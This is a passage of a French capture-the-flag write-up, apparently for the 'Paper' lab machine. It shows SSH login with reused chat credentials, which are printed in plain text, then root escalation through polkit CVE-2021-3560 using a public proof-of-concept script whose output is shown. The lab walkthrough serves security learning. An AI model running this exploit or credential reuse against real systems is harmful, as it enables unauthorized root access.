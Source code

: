 Après vérification, on ne peut pas se connecter en ssh avec cet utilisateur et ce mot de passe. Les creds marchent sur la plateforme web mais un message nous indique qu'il est interdit de se connecter à l'interface web avec un bot.

### SSH : dwight
Le mot de passe de rocketchat fonctionne pour l'utilisateur dwight en ssh:
dwight : `Queenofblad3s!23`
```bash
ssh dwight@office.paper         
dwight@office.paper's password: 
Activate the web console with: systemctl enable --now cockpit.socket

Last failed login: Thu Jan 30 18:24:37 EST 2025 from 10.10.14.42 on ssh:notty
There were 3 failed login attempts since the last successful login.
Last login: Tue Feb  1 09:14:33 2022 from 10.10.14.23
[dwight@paper ~]$ cat user.txt
4419.....697b
```

## Privilege Escalation

### CVE-2021-3560 : polkit
Avec linpeas, on trouve une elevation de privilege grâce à une faille dans l'outil polkit, `CVE-2021-3560`
```bash
./linpeas.sh
...
Vulnerable to CVE-2021-3560
...
```
On trouve un poc sur github avec un script .sh :
https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation

Au début il ne fonctionne pas, le mot de passe du nouveau user crée doit etre équivalent a l'actuel mais ça n'était pas le cas. En précisant le parametre -p=a, l'exploit fonctionne, pas de problème. (Je précise car j'ai abandonné cette CVE à cause de ça... Je pensais que ce n'était pas la solution de la boxe.)
```bash
[dwight@paper ~]$ ./exploit.sh -p=a
[!] Username set as : secnigma
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username secnigma...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username secnigma  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - secnigma
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
[dwight@paper ~]$ su - secnigma
Password: 
[secnigma@paper ~]$ whoami
```